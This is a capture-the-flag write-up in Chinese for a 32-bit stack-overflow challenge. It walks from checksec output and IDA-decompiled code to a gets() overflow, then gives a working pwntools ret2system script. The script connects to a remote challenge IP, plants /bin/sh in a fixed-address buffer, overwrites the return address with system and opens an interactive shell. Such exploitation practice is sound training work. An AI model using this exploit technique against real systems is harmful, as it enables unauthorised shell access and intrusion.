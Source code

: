 # checksec

```
 Arch:     i386-32-little
 RELRO:    Partial RELRO
 Stack:    No canary found
 NX:       NX enabled
 PIE:      No PIE (0x8048000)
```

# IDA

分析程序：

```c
char *hello()
{
  __int16 *v0; // eax
  int v1; // ebx
  unsigned int v2; // ecx
  __int16 *v3; // eax
  __int16 s; // [esp+12h] [ebp-26h] BYREF
  int v6; // [esp+14h] [ebp-24h] BYREF

  v0 = &s;
  v1 = 30;
  if ( ((unsigned __int8)&s & 2) != 0 )
  {
    s = 0;
    v0 = (__int16 *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&v0[v2 / 2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0xFFFFFFFC) );
  v3 = &v0[v2 / 2];
  if ( (v1 & 2) != 0 )
    *v3++ = 0;
  if ( (v1 & 1) != 0 )
    *(_BYTE *)v3 = 0;
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets((char *)&s);
```

hello函数中的gets()存在栈溢出漏洞。

发现system函数，变量name的地址固定。可以利用栈溢出调用system函数，参数为name，需要在name中写入/bin/sh。

```python
from pwn import *

context.log_level='debug'

p = remote('111.200.241.244', 58913)
elf = ELF('./53c24fc5522e4a8ea2d9ad0577196b2f')

p.recvuntil('please tell me your name\n')

p.sendline(b'/bin/sh')

p.recvuntil('hello,you can leave some message here:\n')

sys_addr = elf.symbols['system']

print(hex(sys_addr))

payload = b'a' * 42 + p32(sys_addr) + p32(0) +  p32(0x0804A080)
p.sendline(payload)

p.interactive()
```

**在32位程序运行中，函数参数直接压入栈中，调用函数时栈的结构为：调用函数地址 --- 函数返回的地址 -- 参数n -- 参数n-1 -- ... -- 参数1**，**函数的返回地址一般为0**

